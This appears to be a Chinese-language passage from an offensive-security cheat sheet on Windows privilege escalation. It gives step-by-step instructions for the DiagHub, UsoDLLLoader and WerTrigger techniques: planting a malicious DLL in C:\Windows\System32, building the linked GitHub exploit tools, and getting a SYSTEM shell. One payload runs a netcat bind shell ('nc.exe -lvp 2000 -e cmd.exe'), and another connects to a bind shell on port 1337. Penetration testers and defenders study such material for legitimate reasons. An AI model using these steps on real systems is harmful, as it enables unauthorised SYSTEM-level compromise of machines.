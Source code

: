   #### DiagHub
  	注意：从 1903 及更高版本开始，DiagHub 不能再用于加载任意 DLL。
	Microsoft 诊断中心标准收集器服务 (DiagHub) 是一种收集跟踪信息并通过 DCOM 以编程方式公开的服务。该 DCOM 对象可用于将 DLL 加载到 SYSTEM 进程中，前提是该 DLL 存在于C:\Windows\System32目录中
	创建一个恶意DLL，例如：payload.dll 并将其移动到C:\Windows\System32
	https://gist.github.com/xct/3949f3f4f178b1f3427fae7686a2a9c0
	构建 https://github.com/xct/diaghub
	diaghub.exe c:\\ProgramData\\ payload.dll
	默认payload将运行C:\Windows\System32\spool\drivers\color\nc.exe -lvp 2000 -e cmd.exe
	替代工具：
	https://github.com/Accenture/AARO-Bugs/tree/master/CVE-2020-5825/TrigDiag
	https://github.com/decoder-it/diaghub_exploit
  #### UsoDLLLoader
  	此技巧不再适用于最新版本的 Windows 10 Insider Preview
	如果我们在 Windows 或某些第三方软件中发现了一个特权文件写入漏洞，可以将我们自己的windowscoredeviceinfo.dll复制到C:\Windows\Sytem32\，然后由 USO 服务加载，以NT AUTHORITY\System执行任意代码
	构建https://github.com/itm4n/UsoDllLoader
	选择发布配置和 x64 架构。
	构建解决方案。
	DLL .\x64\Release\WindowsCoreDeviceInfo.dll
	加载程序 .\x64\Release\UsoDllLoader.exe。
	复制WindowsCoreDeviceInfo.dll到C:\Windows\System32\
	使用加载程序并等待 shell 或运行usoclient StartInteractiveScan并连接到端口 1337 上的绑定 shell。
  #### WerTrigger
  	克隆https://github.com/sailay1996/WerTrigger
	复制phoneinfo.dll到C:\Windows\System32\
	将Report.wer文件和WerTrigger.exe放在同一目录中。
	然后，运行WerTrigger.exe。
	以NT AUTHORITY\SYSTEM身份获得shell